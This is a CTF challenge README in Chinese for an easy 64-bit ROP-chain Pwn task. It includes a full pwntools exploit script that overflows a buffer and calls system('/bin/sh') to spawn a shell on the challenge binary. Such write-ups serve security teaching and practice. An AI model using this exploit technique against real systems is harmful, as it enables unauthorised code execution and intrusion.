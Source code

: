 # ROP链

- 作者：pn1fg

- 参考：

- 难度：Easy

- 分类：Pwn

- 暴露端口：70

# 题目描述

最简单的ROP链

# 题目解析

- 源码：[pwn.c](build/pwn.c)

- 考点：64位ROP链

[exp.py](writeup/exp.py)

```python
from pwn import *

context.arch = 'amd64'
context.log_level = 'debug'

if args['REMOTE']:
    io = remote(IP,port)
else:
    io = process('./pwn')

elf = ELF("./pwn")
rop = ROP(elf)

rop.raw(cyclic(0x70 + 8))
rop.raw(rop.find_gadget(["ret"]))
rop.call(elf.sym["system"], [next(elf.search(b"/bin/sh"))])

payload = rop.chain()
io.sendlineafter(b'a?\n',payload)
io.interactive()
```


